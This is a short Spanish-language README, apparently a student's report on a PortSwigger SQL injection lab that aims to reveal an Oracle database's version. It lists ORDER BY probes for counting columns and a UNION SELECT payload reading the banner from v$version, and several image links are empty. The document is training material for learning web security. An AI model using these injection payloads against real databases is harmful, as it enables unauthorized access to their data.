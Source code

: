 # Reto-Christian_Sangucho
Reto_Laboratio_SQLi

# README_CHRISTIAN_SANGUCHO_DIAZ
# INFORME LABORATORIO https://portswigger.net/

## Laboratorio:
Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

## Objetivo:
Conseguir la versión de Oracle

##Consulta Original: 
SELECT * FROM articles WHERE category = ‘Gifts’


## Consulta Manipulada:
Se busca el número de columnas con las siguientes instrucciones
‘ ORDER BY 1
‘ ORDER BY 2
‘ ORDER BY 3


! [Imagen búsqueda de número de columnas con error](Imagen búsqueda de número de columnas con error.png)
! [Imagen búsqueda de número de columnas]()

## Consulta para obtener la versión de Oracle
=Gifts' UNION SELECT banner, 'NULL' FROM v$version--

! [Imagen de la Version Oracle]()
